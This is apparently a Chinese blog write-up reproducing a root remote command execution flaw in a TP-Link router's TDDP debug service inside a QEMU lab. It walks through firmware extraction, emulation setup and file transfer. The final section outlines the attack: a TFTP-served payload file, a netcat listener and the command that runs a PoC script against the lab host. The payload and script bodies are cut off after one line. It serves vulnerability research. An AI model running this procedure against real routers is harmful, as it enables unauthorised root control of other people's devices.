

0x00 缘起
IoT设备，固件小，功能单一，相对操作系统上一些成熟应用程序来说漏洞比较少但是却更容易利用；嵌入式linux环境下的漏洞挖掘类似于对linux的程序做模糊测试，甚至有点类似于CTF中的linux pwn，所以对新人还是相对来说比较友好的。为了拓展自己的学习领域，最终还是踏足了IoT这一块。这边记录下复现这个路由器的代码执行漏洞的过程，熟悉下相关工具&环境的使用和配置。
0x01 漏洞原理
1 | 此远程代码执行漏洞允许用户在设备上以 root 权限执行任意命令，该漏洞存在于 TP- 设备调试协议(TP- Device Debug Protocol 英文简称 TDDP) 中，TDDP 是 TP- 申请了专利的调试协议，基于 UDP 运行在 1040 端口 |
0x02 工具准备
- 源码编译qemu，直接apt的话可能安装的不是最新版本
- 源码编译binwalk，直接apt的话可能 会有依赖问题
0x03 固件提取
这边贴一下官网的固件下载页，vuln的固件可以去上面找。tplink的固件留有历史版本还是很良心的，之前分析vivotek摄像头rce漏洞的时候由于官网并没有放出历史版本而导致一直无法对patch的固件进行利用，就很坑。
拿到固件后binwalk看一下包文件布局

binwalk成功识别出了固件中的文件系统，确认是固件文件后再次binwalk -Me提取出固件中的Squashfs filesystem。

qemu来运行程序

直接qemu-arm是不行的，一些依赖库会找不到，需要指定当前目录为根，加入到path中;这边可以chroot，也可以直接用qemu的-L选项。
发现这种方式运行tddp并不能触发漏洞，这边选择搭建完整的arm qemu的虚拟环境。
##0x04 搭建环境
从debian官网下载qemu的arm debian系统的文件：
- debian_wheezy_armhf_standard.qcow2
- initrd.img-3.2.0-4-vexpress
- vmlinuz-3.2.0-4-vexpress
之后把三个文件放在一个目录下执行
1 | $ sudo tunctl -t tap0 -u `whoami` # 为了与 QEMU 虚拟机通信，添加一个虚拟网卡 |


配置网卡ip
ifconfig eth0 10.10.10.2/24


发现虚拟机可以与宿主机的虚拟网卡通信了。
现在需要把固件系统传到qemu的arm debian虚拟机中，这边用python的httpserver就好了。
python -m SimpleHttpServer
qemu虚拟机上执行wget http://10.10.10.1:8000/squashfs-root.tar.bz2获取宿主机文件。

传好以后需要将当前目录设定为根目录，否则的话有些库会从debian系统的lib目录下去寻找。
1 | mount -o bind /dev ./squashfs-root/dev/ |

之后在宿主机搭建tftp服务
sudo apt install atftpd

到这边漏洞环境搭建完毕。
0x05 漏洞复现
在atftp的根目录/tftpboot写下payload，内容为
1 | function config_test(config) |
- QEMU 虚拟机中启动 tddp 程序
- 宿主机使用 NC 监听端口
- 执行 POC，获取命令执行结果
1 | #!/usr/bin/python3 |
nc -lvnp 1337
python3 poc.py 10.10.10.2 /payload